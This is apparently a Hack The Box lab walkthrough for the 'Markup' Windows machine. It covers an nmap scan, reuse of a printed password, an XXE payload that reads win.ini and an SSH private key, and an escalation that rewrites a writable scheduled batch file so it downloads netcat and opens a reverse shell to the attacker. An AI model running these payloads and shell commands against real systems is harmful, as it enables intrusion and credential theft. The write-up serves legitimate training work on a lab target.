


Hack The Box :: Starting Point :: Markup :: Windows

# Enumeration

We begin by running an Nmap scan.
`nmap -sV -sC -p- -Pn 10.10.10.49 --min-rate=10000`

Nmap reveals four ports open, out of which ports 22 and 80 are of importance. Let's check out the website on port 80.

[login.webp](../_resources/a5ff28d8e033018baf88d8f0cc1b696b.webp)

In the previous machine, we found credentials stored in an SQL dump. Let's try to reuse them, to log into the application. The credentials `daniel : >SNDv*2wzLWf` are found to be valid and let us into the application.

[home.webp](../_resources/0c9f66188eb8f8e4e99019e4b3baa6f5.webp)

# Foothold

Once logged in, we see that the website has functionality for submitting orders.

[order.webp](../_resources/6ee37160cb0b86dc60790e1e9927f639.webp)

Let's intercept the request with Burp. To setup Burp, open the browser settings, navigate to proxy settings and click `manual proxy`. In the proxy settings, input `127.0.0.1` as the proxy address and `8080` as the proxy port. Navigating to the website and submiting an order, we see data is sent to the server in XML format.

[burp_order.webp](../_resources/1590d97cb9d674a2eef3e9c889ddc29d.webp)

The server returns the following response message.

As data is processed in XML format, there is good chance of an XXE (XML External Entity) vulnerability. An XXE vulnerability occurs due to unsafe parsing of XML input, leading to LFI as well as RCE. Testing with the following payload yields good results.

`<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///c:/windows/win.ini'>]><order><quantity>3</quantity><item>&test;</item><address>17th Estate, CA</address></order>`

[xxe_win_ini.webp](../_resources/9455a6755a337fbc8ead966a7affd0a0.webp)

The `services.php` source code, reveals a username `Daniel`.

	<!DOCTYPE html>
	<html lang="en">
	<head>
	<meta charset="UTF-8">
	<title>Goods & Services</title>
	<!-- Modified by Daniel : UI-Fix-9092-->
	<style>

We also have port 22 open which is the SSH server port. SSH private keys are usually stored in `C:\Users\username\.ssh\id_rsa`. Let's check if there are any accessible keys in that folder via XXE.

[xxe_key.webp](../_resources/de0ad361f30c60e11b34cbbe72af0567.webp)

The exfiltration was successful and the private key can be used to login to the server as `daniel`.

	chmod 400 id_rsa
	ssh -i id_rsa daniel@10.10.10.49

The user flag is located in `C:\Users\Daniel\Desktop\user.txt`.

# Privilege Escalation

On enumerating the system, a script named **job.bat** is discovered in the **C:\Log-Management** folder.

[job.webp](../_resources/ca8bf9f9e34867b73f31a97ab0f55bf1.webp)

Looking at the output, we can see that the script requires administrator privilege in order to run.

[job_run.webp](../_resources/0d8d8ad69d5e8223b7a6adf9c32e9645.webp)

The script simply clears the system event logs.

Looking at the permissions of **job.bat** using `icacls` reveals that the group `BUILTIN\Users` has full control (F) over the file. The `BUILTIN\Users` group represents all local users, which includes `Daniel` as well.

[icacls.webp](../_resources/5c2de12787fef42861c215eeba4b8297.webp)

We can get a shell by transferring netcat to the system and modifying the script to execute a reverse shell.

	python3 -m http.server 8000
	curl http://<your_ip>:8000/nc.exe -o c:\users\daniel\nc.exe
	echo C:\Users\daniel\nc.exe -e cmd.exe <your_ip> 1234 > C:\Log-Management\job.bat

The next time this scheduled job runs, a reverse shell with `Administrator` privileges should be received.

[root.webp](../_resources/d9c2e27009364679cf46772c63b5d607.webp)

The root flag is located in `C:\Users\Administrator\Desktopoot.txt`.